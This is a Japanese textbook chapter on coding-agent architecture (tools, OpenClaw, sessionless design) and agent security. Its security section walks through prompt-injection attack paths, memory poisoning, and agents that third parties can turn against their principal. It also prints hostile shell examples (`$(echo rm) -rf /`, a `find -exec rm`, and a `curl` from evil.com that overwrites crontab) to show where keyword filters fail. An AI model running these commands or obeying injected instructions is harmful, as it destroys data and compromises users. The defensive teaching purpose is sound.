# Coding Agent とコード生成

これまでの章では、コンテキストエンジニアリング（第 2、3 章）とツール設計（第 4 章）をそれぞれ深掘りしてきました。本章ではこれらの構成要素を組み合わせ、一つの核心的な問いに答えます。**任意のタスクを処理できる汎用 Agent、そのアーキテクチャはどのような姿をしているのか？**

答えはこうです。**開放的タスクを目標とする汎用 Agent** の核心にあるのは、**Coding Agent**（自律的にコードを記述・修正・実行できる Agent）に**ファイルシステム**を加えたものです。ファイルシステムとは、Agent がコード、データ、記憶、中間結果を保存するための作業空間であり、プログラマーがパソコン上でフォルダを使ってプロジェクトを管理するやり方に似ています。この判断は産業界の実践的な検証から来ています。Manus から OpenClaw まで、成功している開放的タスク型の汎用 Agent はいずれも同一のパラダイムに従っています。少数の汎用ツール（コード実行、ファイルの読み書き、検索）で Coding Agent のランタイムを構築し、その上にブラウザ自動化やネット検索などの能力モジュールを積み重ねるのです。この判断の適用範囲については、「Manus から OpenClaw へ」の節の末尾で改めて論じます。

なぜコード生成がこの大役を担えるのでしょうか。それはコードが単なる道具箱の中の一つのツールではなく、一種の**メタ能力**——実行時に動的に新しいツールと能力を創り出せる能力——だからです。本章の後半（「コード：汎用 Agent のメタ能力」の節）で、この概念とその 6 つの発揮方向を完全に展開します。

コードが Agent にもたらす価値は 2 つの層に表れます。**思考**の面では、形式化されたコードが思考を高度に厳密にします。「年齢が 18 歳より上でかつ実名認証済み」を自然言語で記述すると複数の解釈があり得ますが、`age > 18 and is_verified` と書けば曖昧さは皆無です。**表現**の面では、動作するコードそれ自体が論理的に自己完結した証明であり、実行結果が客観的な正誤の基準を提供します。これは自然言語にはできないことです。

本章はまず Coding Agent の基礎能力と汎用 Agent アーキテクチャ（OpenClaw）から説き起こし、続いてコード生成が各種の場面で応用される様子——数学的思考、コンテンツ創作からシステムレベルのメタ能力まで——を示します。

## Coding Agent

### Coding は Agent の基礎能力

**コード生成は少数の専門化された Agent の専売特許ではなく、あらゆる汎用 Agent が備えるべき基礎能力です**。現在の SOTA モデルの後押しがあれば、基本的な coding 能力を備えるのに複雑なアーキテクチャは必要ありません。

典型的なタスクを考えてみましょう。「リポジトリ内に残されたすべての TODO コメントを整理し、優先度で分類して issue を生成する」。これをやり遂げるには、ディレクトリ構造の閲覧（ls/glob）、コードの読み取り（read）、ファイルの修正（edit/write）、コマンドの実行（bash）、パターンの検索（grep/search）が必要です。この 5 種類の操作は、ほぼすべての Coding Agent の中核的な動作を覆っており、これから展開する 7 つのツールの由来でもあります。厳密に言えば、この 5 種類の操作は自然に 6 つのツールに対応します。7 つ目の Code Interpreter が対応するのは「コード実行/計算」というたぐいの操作で、実装によっては Bash と統合されてしまうこともあります。7 つのツールは規範化された参照集合であり、5 種類の操作と厳密に一対一で対応させる必要はありません。

基礎的な Coding Agent は、以下の 7 つの中核ツールを備えているだけで十分です。

1. **Code Interpreter（コードインタープリタ）**：隔離されたサンドボックス環境（sandbox、すなわちメインシステムから隔離された安全な実行空間。コードはその中で動作し、たとえエラーが起きてもホストマシンに影響しない）を提供し、Python コードを安全に実行する
2. **Bash Shell（コマンドライン端末）**：端末上でコマンドを実行する。テストケースの実行、特殊フォーマットのファイル処理など
3. **ファイル読み取りツール**：コード、設定、ドキュメント、ログなどを読み取る
4. **ファイル書き込みツール**：新しいファイルを作成するか、既存ファイルを完全に書き換える
5. **ファイル編集ツール**：既存ファイルに対して局所的な修正を行う。コードの保守とイテレーションの中核操作
6. **ファイル名検索ツール（Glob）**：パターンマッチングによってファイルシステム内の目的のファイルを素早く特定する。例えば `**/*.py` でプロジェクト内のすべての Python ファイルを見つける
7. **ファイル内容検索ツール（Grep）**：ファイル内容の中から特定のテキストパターンを検索する。例えばある関数を呼び出しているすべてのコード行を検索する

この 7 つのツールは、完全でありながら極限まで簡素な道具箱を構成しており、ほぼどんな Agent システムでも低コストで統合できます。これらは実装上、いずれも第 4 章で紹介した MCP プロトコルによって標準化されたツールサービスとして公開できます。注意してほしいのは、このツールセットは Coding Agent に特有の基礎構成であり、第 4 章で呼び出し方向と作用性質によって分類した 5 種類の汎用ツール分類（知覚/実行/協調/イベントトリガー/ユーザーとのコミュニケーション）とは異なる点です。7 つの中核ツールは主に知覚と実行の 2 種類を覆っています。読者はこう問うかもしれません。では協調、イベントトリガー、ユーザーとのコミュニケーションという 3 種類のニーズはどうなるのか、と。Coding Agent では、これらは通常（ツール層ではなく）Agent フレームワークが処理します。例えばサブ Agent への委任はフレームワークのオーケストレーションロジックが管理し、専用の協調ツールを介するわけではありません。

最も単純なタスクで、この 7 つのツールがどう連携するかを見てみましょう。ユーザーが「プロジェクト内のすべての TODO コメントを一つのリストにまとめてほしい」と言ったとします。

```
Agent（思考）：TODO を含むすべてのコード行を見つける必要がある。
Agent → Grep("TODO", glob="**/*.py")          # ファイル内容を検索
ツールが返す：
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Agent（思考）：3 つの TODO が見つかった。リストに整理してファイルに書き込む。
Agent → Write("TODO_LIST.md", content="...")   # ファイルを書き込む
ツールが返す：ファイルを作成しました

Agent：整理が完了しました。合計 3 件の TODO 項目を発見し、リストは TODO_LIST.md に保存しました。
```

全体の過程で使ったのは Grep（内容検索）と Write（ファイル書き込み）の 2 つのツールだけです。もしタスクがもっと複雑なら——例えば「各モジュールの TODO 数を集計して棒グラフを描く」なら——Agent はさらに Code Interpreter を使って Python コードを実行し、集計と作図を行うでしょう。7 つのツールは単純ですが、組み合わせればきわめて多様なタスクをこなせます。

なぜあらゆる汎用 Agent が coding 能力を備えるべきなのでしょうか。それはコード生成が単にプログラムを書くことではなく、汎用的な問題解決の手段だからです。数学的推論に出くわせば、コードを書いてソルバーに渡し正確な答えを算出できます。業務ルールを固める必要があれば、コードは自然言語による記述よりはるかに正確です。あるツールが欠けていれば、その場で一つ書けます。データ形式が変われば、パースロジックを動的に生成できます。本章では以降、これらの場面を一つずつ展開します。基本的な coding 能力を備えた Agent は、たとえ道具箱に上記の 7 つの単純なツールしかなくても、新しいニーズに出くわしたときに自らの能力の境界を動的に拡張できるのです。

### 事例：Manus から OpenClaw へ——汎用 Agent の Coding カーネル

Manus を代表とする汎用 Agent 製品は、Deep Research（深度調査）、Computer Use（パソコン操作）、Coding（コード生成）という 3 大能力を一つのシステムに融合させ、すでに複数のたぐいの実践で繰り返し検証された洞察を際立たせています。**Coding Agent にファイルシステムを加えたものが、開放的タスク型の汎用 Agent の最も核心的な技術基盤である**という洞察です。オープンソースプロジェクトの OpenClaw も同様の発想を採用し、オープンソースの実践でこのアーキテクチャパラダイムを示しました。

なぜ他の 2 つではなく Coding Agent が核心なのでしょうか。それは、ほぼすべての効率的なコンテンツ生成が最終的にコードに落ちるからです。PPT は本質的に OOXML（Office Open XML、マイクロソフトが打ち出したオフィス文書のオープン標準）形式のコードであり、Word 文書や PDF レポートはコードで生成でき、データ分析と可視化は Python スクリプトで完成し、GUI 操作の中で成功したブラウザ操作シーケンスすら再利用可能な RPA（ロボティック・プロセス・オートメーション、Robotic Process Automation）コードとして固定できます（Computer Use 自体は第 9 章、操作シーケンスの固定化メカニズムは第 8 章で詳述します）。Deep Research の検索と情報総合はコード駆動の Web リクエストとパースで実現でき、Computer Use は汎用性こそ高いものの、コストや遅延、安定性の点で同じ操作をコードや API で直接行う場合にはるかに及びません。コード生成は、効率が最も高く、コストが最も低く、再利用性が最も強い能力基盤なのです。





具体的な実行フローでこのアーキテクチャを理解しましょう。ユーザーが「Help me analyze last quarter's sales data and create a summary report」と要求したとします。

1. **記憶を読む**：Agent は `MEMORY.md` を読み、ユーザーが PDF 形式のレポートを好み、データソースが Google Sheets であることを知る
2. **ツールを呼ぶ**：ネット検索モジュールを通じて Google Sheets API の使い方を取得し、コード実行によってデータをダウンロードする
3. **コードを書く**：Python でデータ分析スクリプト（pandas による集計、matplotlib による可視化）を生成する
4. **成果物を生成する**：分析結果を `report.pdf` に書き込み、図表を `charts/` ディレクトリに書き込む
5. **記憶を更新する**：`MEMORY.md` に「User's sales data is in Google Sheets, ID: xxx」と記録し、次回は再び尋ねなくて済むようにする

全体の過程で、ファイルシステムは情報の流通のハブです。記憶はファイルから読み取られ、成果物はファイルに書き込まれ、経験もファイルとして保存されます。

**Agent の中枢としてのファイルシステム**。OpenClaw の設計において、ファイルシステムは単なるデータストレージにとどまりません。それは Agent の記憶、知識、能力の中枢です。Agent の長期記憶は `MEMORY.md`（高いレベルの事実とユーザーの好み）と、日付ごとにアーカイブされた Markdown ログに保存されます。ベクトルデータベースではなく Markdown を選ぶというこの決定は、一見直感に反しますが、実際には極めて有効です。ユーザーはファイルを直接開いて Agent の記憶を読んだり修正したりでき（Agent が何かを覚え違えていたら、その一行を直接削除すればよい）、Markdown は本来的に時間順を保つため意味検索における時間の混同を避けられ、しかも Git によるバージョン管理とロールバックが可能です。

さらに重要なのは、Agent がファイルを書き込む能力を持つことです。これは、ファイルを書き込むことで**自己進化**できることを意味します。Agent が初めてあるタスクを実行し、それまで知らなかった重要な情報を発見したとき（例えばある銀行に電話をかけた際、本人確認のために口座開設支店の住所の提示を求められると分かったとき）、Agent はこの経験を知識ベースに書き込み、次に同じタスクを実行するときに自動的に読み込みます。この「使えば使うほど賢くなる」メカニズムは、本質的に第 8 章で深く論じる外部化学習パラダイムの具体的な実践にほかなりません。

**適用範囲：どの Agent が Coding を核心アーキテクチャとするか**。「Coding Agent は汎用 Agent の核心である」というこの判断が主に適用されるのは、**開放的タスクを目標とする**汎用 Agent——深度調査、コンテンツ生成、データ処理といった、タスクの境界が不確定で成果物の形態が多様な場面です。これらの場面では、必要となるすべてのツールを事前に列挙することはできず、メタ能力としてのコード生成が能力の境界を動的に拡張する最も経済的な経路を提供します。だからこそそれがアーキテクチャの核心なのです。一方、もう一種類の Agent——垂直領域のカスタマーサポート Agent や音声アシスタント——はタスク空間が比較的閉じており、核心アーキテクチャは固定された業務フロー、領域ツール、対話戦略を中心に構築されます。そこでのコードは、アーキテクチャの中枢というより道具箱の中の一つのツールという性格が強くなります（本章後半の τ-bench（カスタマーサポートの場面を模擬したベンチマーク、後述）の例では、コードはまさに政策検証ツールの役割を演じます）。しかし後者においても、coding は不可欠な基礎能力です。正確な計算、データ処理、ルール検証はいずれもそれなしには成り立ちません。これはまさに前節の「Coding は Agent の基礎能力」という論断と呼応します。Coding を核心アーキテクチャとするか否かは場面によって異なりますが、coding 能力を備えることはすべての Agent の共通の最低ラインなのです。

### Sessionless 設計

次に「いつでも使える」インタラクション方式とセキュリティアーキテクチャという 2 つの設計を論じます。一見すると Coding Agent というテーマと無関係に思えます。しかしこれらは、Agent がコード実行環境とファイルシステムの状態をどう管理するかを直接左右し、それこそが Coding Agent の核心的な関心事なのです。（Coding Agent が一歩ずつどう動くかを先に知りたい読者は、先に後ろの「Coding Agent の全体フロー」の節に飛んで読み、それからここに戻ってインタラクションとセキュリティの設計を見ても構いません。）

OpenClaw は **Sessionless**（無セッション）設計を採用しています。インストール、ログイン、「App を開く」といった手順がなく、Agent は常時オンラインに常駐し、ユーザーは自分がすでに使っているメッセージングプラットフォームを通じていつでも一通メッセージを送るだけで応答を得られます。このインタラクション形態とその背後にある Gateway のメッセージルーティングおよびイベント駆動アーキテクチャは、第 4 章のユーザーとのコミュニケーションツールの部分ですでに詳しく論じたので、ここでは展開しません。強調しておきたいのは、この形態が成り立つ前提です。大規模モデルが、新しい「知的基盤」として振る舞えるほど成熟したことです。従来のオペレーティングシステムがハードウェアを覆い隠し、上層のアプリケーションに統一された抽象を提供するのに似て、大規模モデルは言語理解と思考・計画の複雑さを覆い隠し、上層の Agent に統一された知的抽象を提供します。まさにこの基盤があってこそ、「常駐 + 随時応答」という形態が低コストでエンジニアリング可能になったのです。

Coding Agent にとって、Sessionless の真のエンジニアリング上の難所は、**コード実行環境とファイルシステムの状態をメッセージをまたいでどう生存させるか**にあります。ユーザーの 2 つのメッセージの間隔は数分のこともあれば数日のこともあり、Agent の作業は大量の暗黙的な状態に依存しています。サンドボックスにインストールした依存パッケージ、端末セッション内の作業ディレクトリと環境変数、バックグラウンドで走る開発サーバー、書きかけのファイルなどです。OpenClaw のやり方は、状態を 2 層に分けて管理することです。**ファイルシステムの状態は本来的に永続的です**。ワークスペース（workspace）ディレクトリはサンドボックスの外の永続ストレージにマウントされ、コード、データ、中間成果物はメッセージをまたいでも、サンドボックスの再起動をまたいでも失われません。これも「Agent の中枢としてのファイルシステム」のもう一つの含意です。**プロセスの状態は必要に応じて保活または再構築します**。サンドボックスとその中の端末セッションはアクティブな間は稼働を保ち、メッセージのたびにコールドスタートし、ディレクトリを切り替え直し、仮想環境を有効化し直す事態を避けます。アイドルがタイムアウトすると資源を回収するために破棄し、破棄前にシリアライズ可能な環境状態（作業ディレクトリ、環境変数、バックグラウンドタスクの一覧）をワークスペースのファイルに記録し、次に呼び覚ますときに Agent が記録に従って再構築します。本章後半の「コマンド実行環境の状態の永続化」で論じる永続的な端末セッションは、まさにこの仕組みの単一タスク内での対応物です。Sessionless は同じ問題を、メッセージをまたぎ、日をまたぐ時間スケールへと引き延ばします。

Sessionless も保守不要というわけではありません。それは、ユーザーメッセージのたびに**完全な軌跡と作業状態を再ロードする**必要があることを意味し、状態のシリアライズ効率や軌跡圧縮の戦略に対してより高い要求を課します。軌跡圧縮そのものの設計原則は第 2 章「コンテキスト圧縮の戦略」ですでに論じたので、本章は Sessionless アーキテクチャの下でのエンジニアリング上のトレードオフに重点を置きます。

### Coding Agent のセキュリティ

本節では、Coding Agent のセキュリティ防衛線を一本の完結した物語の筋にまとめます。まず**脅威モデル**を素描し——どのリスクが最も致命的か。次に**隔離による最終防衛**を論じ——サンドボックスのネットワーク出口、ファイルシステムと資源上限。それから**実行期の防御**——コマンドの意味解析、そして安全チェックを「見えなく」する投機的実行。最後に**信頼と忠誠**に落とし込みます——多者委託の下で Agent は誰に忠誠を尽くすのか、そして AI が書いたコード自体が信頼できないとき、いかに信頼の境界をデータ層まで引き下げるか。このうち脅威モデル、忠誠度、信頼境界の議論はすべての Agent に共通し、サンドボックスとコマンド解析は Coding Agent 特有の増分です。

この「主権を持つ知的エージェント」というパラダイムは、深刻なセキュリティ上の課題ももたらします。Coding Agent はファイルの読み書き、コマンドの実行、ネットワークへのアクセスの権限を持ち、これは、ひとたび悪意ある指示を注入されれば不可逆的な損失を招きかねないことを意味します。開発者であり独立研究者でもある Simon Willison は、このリスクを有名な「致命的な三要素」として総括しました。3 つの要素がそろえば、完全な攻撃の閉ループが構成され、システムは高リスクに分類されます。

1. **プライベートなデータへのアクセス**——Agent がユーザーのファイルやパスワードマネージャーを読み取れる
2. **信頼できないコンテンツへの露出**——処理するメールや Web ページが悪意あるペイロードを含みうる
3. **外部通信能力の具備**——メールを送信し、コマンドを実行できる

攻撃経路はこうして閉じます。悪意ある指示が信頼できないコンテンツの中に潜んで Agent に入り込み、プライベートなデータを読み取らせ、対外的な経路を通じて外へ持ち出させるのです。注意すべきは、三要素がそろうこと自体ですでに十分に危険であり、いかなる追加条件も必要としない点です。この基礎の上に、筆者は第 4 の次元——**永続記憶**——を補います。これは並列する第 4 の必要条件ではなく、攻撃の増幅器です。攻撃者は一見無害な偏見や悪意ある指示を Agent の長期記憶に書き込み、セッションをまたいで潜伏させ、適切なタイミングで再び発動させ、一度きりの攻撃を長期の潜伏と増幅へとエスカレートさせることができます。

この 4 点は 4 種類の境界にまとめられます。データ境界、入力信頼境界、出力影響境界、セッションまたぎ境界です。OpenClaw のような全権限のローカル Agent は、まさにこの 4 つをすべて兼ね備えており、そのためセキュリティ防護はこの種の Agent が正面から向き合わねばならない核心的課題となります。

これはまた、なぜクローズドソースの商用 Agent（Claude Cowork（Anthropic がナレッジワーク向けに提供する汎用 Agent。Claude Code の agentic アーキテクチャを再利用し、ローカルファイルの読み書きや複数のオフィスアプリをまたいだ多段階タスクを実行できる）など）が保守的な権限戦略を選んだのかを説明します。技術的にできないのではなく、セキュリティリスクが高すぎるからです。プロンプトインジェクションの脅威に対して、入力フィルタリングだけではほぼ防ぎきれません。要点はすべての攻撃を識別することではなく、Agent がたとえ注入されても、危険な動作を実際に実行に移す機会を持たせないことです。防御体系は前の 2 章ですでに階層的に構築されています。**コンテキスト層の防御**——外部コンテンツの出所の標注、構造化された役割の隔離、入力のクレンジング——は第 2 章のプロンプトインジェクションの節を、**実行層の防御**——Sidecar による独立審査、Human in the loop（人間を介在させる）、最小権限と権限分離——は第 4 章を参照してください。同一コンテキスト内の Agent は自らがすでに注入されているかどうかを判断しづらいため、重要な操作はコンテキストの外部にある機構によって再確認されねばならない。この原則は 2 章を貫いています。本節では Coding Agent 特有の 3 つの増分だけを補います。

- **コマンド意味解析**——Shell コマンドの組み合わせ爆発はキーワードのブラックリストを有名無実にするため、意味の層でコマンドの真の効果を理解しなければならない（本節後半で展開）
- **サンドボックス隔離とネットワーク出口制御**——コード実行は Coding Agent 固有の攻撃面であり、隔離レベルと出口戦略のエンジニアリング上の選定は本節後半を参照
- **永続記憶のセッションまたぎ防衛線**——これは本章が致命的な三要素の外で特に強調する拡張項目である。長期記憶に書き込む内容は、外部コンテンツと同等の信頼審査を経る必要があり、悪意ある指示が `MEMORY.md` の中に潜伏して長期にわたって効き続けるのを避ける

この 3 つの増分はそれぞれ検証、実行、データの 3 つの層に落ち、前の 2 章の防御体系と互いに補完し合います。これらの戦略はリスクを完全に取り除くことはできませんが、Agent の攻撃面を縮小できます。

**隔離による最終防衛：コード実行サンドボックスのエンジニアリング選定。** サンドボックスは一つのスイッチではなく、一連のエンジニアリング上の意思決定です。第 4 章ではすでに「なぜ隔離するのか」、隔離機構の段階的な原理（プロセスレベルの隔離、コンテナ、microVM という 3 段階のスペクトラム）、そして「個人のローカルマシンではプロセスレベル、シングルテナントのクラウドではコンテナ、マルチテナントや素性の知れないコードでは microVM/gVisor」という選定則に答えました。ここではこのスペクトラムを繰り返さず、Coding Agent を実地に落とすときに避けて通れず、かつ第 4 章で展開しなかった 4 つの増分だけを補います。ネットワーク出口をどう管理するか、ファイルシステムをどれだけマウントするか、資源をどう制限するか、永続セッションと隔離をどう調和させるか。

**ネットワーク出口制御**。これは最も見落とされやすく、しかし最も重要な一項です。デフォルトでネットワークを遮断し、必要に応じてホワイトリスト方式のプロキシで限られた宛先（パッケージ管理ソース、ドキュメントサイト、タスクが明確に必要とする API）だけを通します。致命的な三要素の第 3 条——「外部通信能力の具備」——を振り返れば、ネットワーク出口制御はまさにその実行面の防御です。たとえプロンプトインジェクションが成功し、悪意あるコードがサンドボックス内で機微なデータを読み取ったとしても、出口がなければ外へ持ち出せません。一つ一つの注入を識別しようとするのに比べ、データの外部持ち出しの経路を断ち切るほうがはるかに確定的な防衛線です。

**ファイルシステム隔離の範囲**。ソースコードのディレクトリは読み取り専用でマウントし（Agent は編集ツールでコードを修正し、生成されたパッチは審査後にディスクに落とすか、コピーを書き込み可能なワークスペースにマウントする）、別個の書き込み可能なワークスペースディレクトリが生成物と中間ファイルを担います。認証情報系のファイル（`~/.ssh`、鍵、token）はそもそもサンドボックスにマウントしません。見えないデータは漏洩しようがなく、これは致命的な三要素の第 1 条に対応します。

**資源上限とタイムアウト**。CPU、メモリ、ディスクの割り当てに壁時計タイムアウトを加え、無限ループ、fork 爆弾（自らを狂ったように複製し続けてシステムを引きずり倒すプロセス）、無限のディスク書き込みを防御します。一つ実践的な細部として、タイムアウトや上限超過はプロセスを黙って kill するのではなく、Agent に構造化されたエラー（「実行が 120 秒を超えたため終了しました。最後の出力は以下……」）を返すべきで、Agent が次のラウンドで戦略を修正する機会を与えます。

**永続セッションと隔離の調和**。本章後半の「コマンド実行環境の状態の永続化」は長期に生存する端末セッションの維持を主張し、隔離の原則は環境を使い捨てにすることを主張します。両者には張力があります。調和の考え方はこうです。**セッションの保活はサンドボックスの内部で行い**、端末セッションのライフサイクルはサンドボックスのライフサイクルを厳密に超えず、セッション状態がホストマシンへ逃げ出すことは決してありません。長い時間間隔をまたいで復元する必要のある場面（前述の Sessionless アーキテクチャなど）には、サンドボックスのスナップショット、あるいは「ワークスペースファイルの永続化 + 環境のスクリプトによる再構築」に頼って状態を復元し、サンドボックスの生存時間を無限に引き延ばしたりはしません。言い換えれば、永続化するのは**監査可能な状態の記述**（ファイル、スクリプト、一覧）であって、不透明な実行中のプロセスではないのです。

**セキュリティ：キーワードのブラックリストではなく意味解析**。第 1 章では、検証層は「マッチングではなく理解に基づく」セキュリティ機構を採用すべきだと述べました。Shell コマンドのセキュリティ検証は、この原則の最も挑戦的な応用場面です。単純なキーワードのブラックリストは Shell の組み合わせ爆発に対応できません。コマンドはパイプ、サブシェル、変数展開などの方法で、いかなる静的ルールも回避できます（例えば `rm` が禁止されても、攻撃者は `$(echo rm) -rf /` で回避できます）。プロダクションレベルの Harness は意味解析を採用します。各コマンドの引数の型と消費規則（どのフラグが次の引数を消費するか）を理解し、「一見無害なあるフラグが実は次の引数を消費し、そうして危険なペイロードを隠す」といった攻撃パターンを識別します。例えば `find / -name '*.log' -exec rm {} \;` は合法な `find` コマンドの引数を通じて `rm` 削除操作を埋め込んでおり、また `curl -o /etc/crontab http://evil.com/payload` は一見ファイルのダウンロードのようでいて実はシステムの定時タスクを上書きします。意味解析はこれらの入れ子になった危険な操作を識別できますが、単純なコマンドのブラックリストは捕捉できません。このマッチングではなく理解に基づくセキュリティ機構は、「制約」機能の高度な実装です。

**投機的実行：安全チェックを「見えなく」する**。これはまさに第 4 章の Sidecar ゲート機構がユーザー体験の層にもたらす効果です。第 4 章では、なぜ重要な操作をメインのコンテキストから独立した Sidecar に再確認させるのかを説明しましたが、本節が関心を寄せるのは、この再確認の層をユーザーに待ち時間として感じさせないようにする方法です。やり方は「表示」と「許可」という 2 つのことを切り離して並列に行うことです。Agent がツール呼び出しを実行しようとするとき、システムは一方でインターフェース上に進捗の提示を先行して表示し（例えば「ファイル `src/main.py` を読み込み中……」）、もう一方で同時にバックグラウンドで安全チェックを走らせます。ここで、よく持ち出される類比を一つ明確にしておく必要があります。これは CPU の投機的実行とは同じではありません。CPU は予測を外すと計算済みの結果を破棄し、状態をロールバックしなければなりませんが、ここで先行するのは**副作用のない UI の提示**にすぎず、いかなる真の状態も変えないため、チェックが通らなくてもロールバックの必要はなく、提示を「確認待ち」に差し替えるだけです。ほとんどの場合、安全チェックはユーザーが気づく前にすでに完了しており、ユーザーは追加の遅延をまったく感じません。素早く判定できない場合にのみ、実際に一時停止して確認を待ちます。これは Harness 設計の最高の境地です。安全性がユーザー体験を犠牲にする代償を伴わないのです。

**Agent は誰に忠誠を尽くすか：多者委託の下での忠誠度。**

前述のセキュリティ機構が防ぐのは「コマンドが悪用されること」ですが、もう一種類のもっと微妙なセキュリティ問題があります。**委託者忠誠**（principal loyalty）——**Agent はいったい誰の側に立つのか**です。モデルは訓練時に、素朴なデフォルト原則——「話しかけてくる者に、できる限り手を貸す」——を刷り込まれています。しかし現実の Agent はしばしば**多者委託**の状況に置かれます。主人を代表して行動しながら、やり取りする相手は利害の相反する第三者なのです。あなたのために値切ってくれる Agent の向かいに座っているのは「助けを必要とするユーザー」ではなく、**交渉の相手**です。このとき「話しかけてくる者に手を貸す」は危険なデフォルト設定です。相手は口を開きさえすれば、Agent を寝返らせられるかもしれません。

最先端のモデルをこうした状況に置いて実測すると、明瞭な**忠誠度のスペクトラム**が見え、しかも両端とも破綻します[^ch5-1]。一方の端は**お人好しすぎる**——主人の秘密の情報（例えば「こちらの底値は 12000 だ」）を相手にそのまま漏らし、何ラウンドか繰り返し圧力をかけられると武装解除して譲歩してしまう。もう一方の端は**疑り深すぎる**——主人の正当な要求すら一律に拒否し、かえってタスクを完了できなくなる。本当に難しいのは、この 2 つの失敗が一本のシーソーだということです。情報漏洩を塞ごうとするとしばしば過度の拒否へと滑り、両立させるのはきわめて難しいのです。

これは Coding Agent にとりわけよく当てはまります。リポジトリから読み取った信頼できないコンテンツ、あるツールが返した出力、サードパーティの MCP サーバーから届いた指示、これらはいずれも Agent を寝返らせようとする「相手」です。**プロンプトインジェクションは本質的に一度の寝返り工作なのです**（第 2、4 章）。したがって Harness 層は「忠誠の対象」を明示的に固定しなければなりません。主人の指示の優先度が最も高く、外部のやり取り相手から来るあらゆるコンテンツはデフォルトで「参考にはできるが指示としての効力は持たない」データへと格下げされます。システムプロンプトに落とし込むと、有効な**忠誠度の掟**は次のようになります。主人の秘密の情報、ひいてはその「存在性」を守る。拒否するときに拒否リストを一条ずつ読み上げない（それ自体が漏洩になる）。内心の底値は対外的な立場と同じではない。主人の明確で具体的な指示だけを実行する。繰り返される圧力に耐える。本質的に、これは Harness を使って、モデルがデフォルトでは持たない一つの立場を補うことです。**主人には絶対的に忠誠を尽くし、外部のやり取り相手には慎重さを保つ**。

[^ch5-1]: この忠誠度のスペクトラムおよび掟の完全な評価は Li, Bojie and Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026 を参照。

**AI が書いたコード自体が信頼できないとき：信頼境界を引き下げる。**

前段の忠誠度の掟は Agent を**より高い確率で**規則を守らせますが、高リスクなデータ操作に対しては「より高い確率で」ではまだ足りません。制約を「Agent の自覚に期待する」ことから、データ層で強制的に執行することへと引き下げる必要があります。より徹底した立場はこうです[^ch5-2]。**いっそアプリケーション層を信頼できないものとみなし、データ不変条件の強制執行をその下の層に沈める**。過去 30 年間、ソフトウェアの完全性の境界はずっと**アプリケーション層**にありました。誰が操作できるか、どの値が合法かを handler コードが決め、データベースはこれらのコードを無条件に信頼してきました。ところが LLM が生成する handler はしばしば権限と完全性のチェックを漏らし、自律 Agent はまた本番データに直接手を下すため、この前提が破れてしまいました。新しい方案（権限埋め込み型のデータオブジェクト、Permission-Embedded Data Objects と呼べます）は、各データ実体が**人間が審査した schema** の中で宣言的な権限ルール、バリデータ、結果の宣言を自ら携え、ランタイムのパイプラインが**書き込みのたびに**強制執行します。鍵となる原語は、各操作に付随する**アクセスコンテキスト（access context）**です。再生成された handler はそれが奉仕するユーザーの権限で動作し、自律 Agent はそれ自身の制限された身元（scoped principal）で動作します。Agent の忠誠にひたすら期待するより、アーキテクチャの上で権限の制限された主体へと格下げし、たとえ寝返らされても一線を越えられないようにするほうがよいのです。

同一の一連のプロンプトで対照すると、この機構は**宣言された不変条件に違反する書き込みが一度も起きない**ことを達成します。一方、素の SQL、LLM 自身が書いたチェック、憲法式のプロンプト、動作境界のインターセプタは、いずれも数回から数十回の違反を見逃します。それは「より高い確率で正しい」のではなく「間違えようがない」のであり、代償は書き込みごとに約 2 ミリ秒余分にかかるだけです。もちろん、この保証には条件があります。schema が望む不変条件を本当に漏れなく書き切っていること、そしてデプロイ上、信頼できない層がストレージを迂回してデータベースに直結するあらゆる経路を塞ぎ切っていることです。Coding Agent にとって、これは一つの重要なアーキテクチャ原則を与えます。**コードを書く者もコードを走らせる者も信頼できないかもしれないとき、本当に信頼できる制約は、生成されるコードの中に置くことはできず、その下の層、人間が審査した地盤の中に置かねばならない**。これもまた、第 1 章の「制約は指導に優先する」原則の、データ層における究極の形態なのです。

[^ch5-2]: この「信頼境界をアプリケーション層の下へ引き下げる」設計と評価（各方案の違反回数の完全な対照を含む）は Li, Bojie. *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026（発表予定）を参照。

### Coding Agent の全体フロー


